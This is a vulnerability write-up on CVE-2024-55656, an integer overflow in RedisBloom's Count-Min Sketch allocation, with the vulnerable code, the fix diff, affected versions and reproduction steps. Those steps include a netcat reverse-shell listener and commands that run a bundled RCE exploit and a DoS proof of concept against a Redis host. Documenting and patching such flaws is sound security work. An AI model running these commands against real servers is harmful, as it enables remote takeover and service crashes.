




# CVE-2024-55656 CWE-190 Redis integer overflow

## Vulnerability Background
- **Redis**: A key-value storage system that is a cross-platform non-relational database. An open-source in-memory database that provides a high-performance key-value storage system, commonly used in caching, message queues, session storage, and other application scenarios. Clients communicate with Redis servers via sockets, sending commands, and the server changes its state (i.e., its memory structure) to respond to such commands.
- **RedisBloom:** RedisBloom's extension module provides probabilistic data structures such as Bloom filters, Count-Min Sketch, and Top-K in a native lifetoken format, enabling massive data existence checks, frequency statistics, and hotspot ranking within constant memory and millisecond-level latency.
- **Count-Min Sketch :** A probabilistic data structure used to count event frequency (approximate count). It approximates the frequency of elements in the data stream using a very small space (hash array + counter); It supports high-speed updates and queries, ensuring that low-frequency is not missed as high-frequency while allowing for configurable overestimation errors, making it suitable for scenarios such as big data, network measurement, cache hotspot detection, and other memory-sensitive scenarios that tolerate small errors.

```txt
CWE-190: Integer Overflow or Wraparound

The product performs a calculation that can produce an integer overflow or wraparound when the logic assumes that the resulting value will always be larger than the original value. This occurs when an integer value is incremented to a value that is too large to store in the associated representation. When this occurs, the value may become a very small or negative number.
```

## Vulnerability Mechanism
In RedisBloom's `CMS.INITBYDIM` of RedisBloom's component, user-controlled `width` and `depth` are multiplied in the `NewCMSketch()` without overflow detection, `width * depth` exceed the `size_t` This can cause less allocated memory than actually needed, which can lead to off-heap reads and writes (information leaks, OOB writes) during subsequent `cms->array` reads and writes. This can be triggered on the authentication client and may lead to denial of service or, under certain conditions, evolve into remote code execution.

## Vulnerability Location
Analysis of RedisBloom v2.6.12 source code:

In the src/cms.c file, the 20th line of the NewCMSketch function in the RedisBloom module is used to create a Count-Min Sketch (CMS) data structure.

At line 29, `width * depth` is a multiplication of an unsigned integer (size_t), but no overflow check is performed. When ` width * depth` exceeds the maximum integer range (SIZE_MAX), the actual value becomes 0 (or a very small number), causing the allocated memory to be much smaller than the actual size needed.

```c
CMSketch *NewCMSketch(size_t width, size_t depth) {
    assert(width > 0);
    assert(depth > 0);

    CMSketch *cms = CMS_CALLOC(1, sizeof(CMSketch));

    cms->width = width;
    cms->depth = depth;
    cms->counter = 0;
    cms->array = CMS_CALLOC(width * depth, sizeof(uint32_t));

    return cms;
}
```

## Remediation
Upgrade RedisBloom to 2.4.13, 2.6.16, 2.8.5, or a later supported release. Until upgraded, deny untrusted users access to the RedisBloom Count-Min Sketch commands and avoid exposing Redis Stack directly to untrusted networks.

At the beginning of `NewCMSketch`, a check for possible integer overflow is added to avoid `width * depth` or `elems * sizeof(uint32_t)` overflow, thereby preventing underallocation of downstream `calloc`. At the same time, the array allocation is changed to `CMS_TRYCALLOC(...)`, and if it fails, the `cms` is released and the `NULL` is returned to prevent `cms` leakage when allocation fails.

```cpp
diff --git a/src/cms.c b/src/cms.c
index ab3cbf0e1..fdbbd36f8 100644
--- a/src/cms.c
+++ b/src/cms.c
@@ -21,12 +21,20 @@ CMSketch *NewCMSketch(size_t width, size_t depth) {
     assert(width > 0);
     assert(depth > 0);
 
+    if (width > SIZE_MAX / depth || width * depth > SIZE_MAX / sizeof(uint32_t)) {
+        return NULL;
+    }
+
     CMSketch *cms = CMS_CALLOC(1, sizeof(CMSketch));
 
     cms->width = width;
     cms->depth = depth;
     cms->counter = 0;
-    cms->array = CMS_CALLOC(width * depth, sizeof(uint32_t));
+    cms->array = CMS_TRYCALLOC(width * depth, sizeof(uint32_t));
+    if (!cms->array) {
+        CMS_FREE(cms);
+        return NULL;
+    }
 
     return cms;
 }
```

## Affected Versions
RedisBloom:

- 2.8.0 through 2.8.4
- 2.6.0 through 2.6.15
- 2.4.0 through 2.4.12

## Environment Setup
Launch the Docker environment, with redis-stack version 7.2.0-v10, which is a Redis server running RedisBloom v2.6.12

```txt
CNA:GitHub,Inc.   Base Score:8.8 HIGH   Vector:CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H
```



## Vulnerability Reproduction
### RCE

1. Turn on the 4444 port to listen

```bash
   nc -lvnp 4444
   ```

2. Go to the EXP folder, run the CVE-2024-55656-EXP.py file, and enter the IP and port of the target Redis, as well as the IP and port of the attack machine that bounced the shell. After running, you can see the shell bounced successfully.

```bash
   python CVE-2024-55656-EXP.py --host 127.0.0.1 --port 6379 --lhost 192.168.233.153 --lport 4444
   ```



### DoS

1. Go to the PoC folder, run CVE-2024-55656-PoC.py code, enter the IP and port of the target Redis, and you will see that Redis has disconnected.

```bash
   python CVE-2024-55656-PoC.py --host 127.0.0.1 --port 6379
   ```



2. Check the container logs, and you can see that Redis experienced a segment of error (signal: 11), causing the crash.

```bash
   docker logs redis-stack-7.2.0-v10
   ```



## PoC Analysis

The DoS PoC submits malformed Count-Min Sketch dimensions that make the vulnerable `width * depth * sizeof(uint32_t)` size calculation wrap. The allocation is consequently smaller than the logical sketch, and later counter initialization or access writes outside the allocated buffer, producing the observed crash.

The bundled exploit attempts to turn the same out-of-bounds write primitive into code execution. Remote code execution is plausible and is the impact stated by the RedisBloom advisory, but its reliability depends on the allocator, build, architecture, and process memory layout; the deterministic result demonstrated by the simple PoC is denial of service.

## References
[NVD - CVE-2024-55656](https://nvd.nist.gov/vuln/detail/CVE-2024-55656)

[ZDI-CAN-24143: Redis Stack RedisBloom Integer Overflow Remote Code Execution Vulnerability · Advisory · RedisBloom/RedisBloom](https://github.com/RedisBloom/RedisBloom/security/advisories/GHSA-x5rx-rmq3-ff3h)

[rick2600/redis-stack-CVE-2024-55656](https://github.com/rick2600/redis-stack-CVE-2024-55656)

[CP potential crashes and mem leak (#846) · RedisBloom/RedisBloom@27c82ab](https://github.com/RedisBloom/RedisBloom/commit/27c82ab0690c4c98ee356125f41ad5d78f8a1bb1#diff-6caa899bca1b2bf61f93552a8fde885f19c789f5bfd13938bb7e98510e0783a9)
